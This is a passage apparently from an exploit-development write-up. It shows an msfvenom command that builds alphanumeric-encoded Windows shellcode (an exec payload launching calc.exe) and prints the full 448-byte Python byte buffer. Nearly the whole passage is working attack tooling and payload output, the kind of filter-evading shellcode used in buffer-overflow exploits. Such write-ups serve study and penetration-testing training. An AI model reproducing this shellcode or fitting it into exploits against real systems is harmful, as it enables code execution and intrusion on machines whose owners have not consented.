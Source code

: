 ![](/assets/img/Findings11/17.png)

##### Generating alphanumeric shellcode.

```term
root@whitecr0wz:~# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed EXITFUNC=thread 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 448 (iteration=0)
x86/alpha_mixed chosen with final size 448
Payload size: 448 bytes
Final size of py file: 2188 bytes
buf =  b""
buf += b"\x89\xe7\xda\xcf\xd9\x77\xf4\x5b\x53\x59\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += b"\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += b"\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x4b\x4c\x78\x68\x6d"
buf += b"\x52\x77\x70\x75\x50\x73\x30\x45\x30\x6b\x39\x69\x75"
buf += b"\x45\x61\x69\x50\x31\x74\x6c\x4b\x76\x30\x34\x70\x4e"
buf += b"\x6b\x51\x42\x66\x6c\x4c\x4b\x33\x62\x72\x34\x4c\x4b"
buf += b"\x33\x42\x51\x38\x36\x6f\x6e\x57\x71\x5a\x66\x46\x66"
buf += b"\x51\x49\x6f\x4c\x6c\x37\x4c\x75\x31\x43\x4c\x43\x32"
buf += b"\x66\x4c\x71\x30\x6a\x61\x6a\x6f\x76\x6d\x47\x71\x78"
buf += b"\x47\x49\x72\x58\x72\x43\x62\x51\x47\x6c\x4b\x46\x32"
buf += b"\x32\x30\x6c\x4b\x32\x6a\x37\x4c\x4e\x6b\x70\x4c\x47"
buf += b"\x61\x31\x68\x7a\x43\x53\x78\x35\x51\x6e\x31\x42\x71"
buf += b"\x6e\x6b\x73\x69\x67\x50\x65\x51\x68\x53\x6e\x6b\x71"
buf += b"\x59\x35\x48\x59\x73\x35\x6a\x37\x39\x6c\x4b\x37\x44"
buf += b"\x4c\x4b\x53\x31\x4a\x76\x45\x61\x49\x6f\x4c\x6c\x5a"
buf += b"\x61\x58\x4f\x46\x6d\x47\x71\x4b\x77\x77\x48\x59\x70"
buf += b"\x72\x55\x7a\x56\x56\x63\x53\x4d\x79\x68\x77\x4b\x51"
buf += b"\x6d\x37\x54\x70\x75\x4a\x44\x46\x38\x4e\x6b\x30\x58"
buf += b"\x51\x34\x77\x71\x6e\x33\x53\x56\x6c\x4b\x74\x4c\x32"
buf += b"\x6b\x4c\x4b\x31\x48\x67\x6c\x67\x71\x79\x43\x6c\x4b"
buf += b"\x67\x74\x6c\x4b\x73\x31\x6a\x70\x6b\x39\x30\x44\x76"
buf += b"\x44\x74\x64\x33\x6b\x33\x6b\x51\x71\x56\x39\x33\x6a"
buf += b"\x66\x31\x69\x6f\x6d\x30\x43\x6f\x63\x6f\x31\x4a\x6e"
buf += b"\x6b\x42\x32\x5a\x4b\x4e\x6d\x63\x6d\x63\x5a\x76\x61"
buf += b"\x6e\x6d\x4e\x65\x4c\x72\x53\x30\x53\x30\x75\x50\x52"
buf += b"\x70\x55\x38\x35\x61\x4c\x4b\x72\x4f\x4f\x77\x79\x6f"
buf += b"\x69\x45\x4d\x6b\x4d\x30\x47\x6d\x76\x4a\x46\x6a\x53"
buf += b"\x58\x4d\x76\x4c\x55\x4d\x6d\x4f\x6d\x49\x6f\x69\x45"
buf += b"\x57\x4c\x66\x66\x61\x6c\x46\x6a\x6b\x30\x39\x6b\x39"
buf += b"\x70\x62\x55\x44\x45\x6f\x4b\x57\x37\x45\x43\x71\x62"
buf += b"\x50\x6f\x61\x7a\x47\x70\x33\x63\x79\x6f\x59\x45\x61"
buf += b"\x73\x70\x61\x52\x4c\x72\x43\x36\x4e\x32\x45\x61\x68"
buf += b"\x71\x75\x43\x30\x41\x41"
root@whitecr0wz:~# 
```
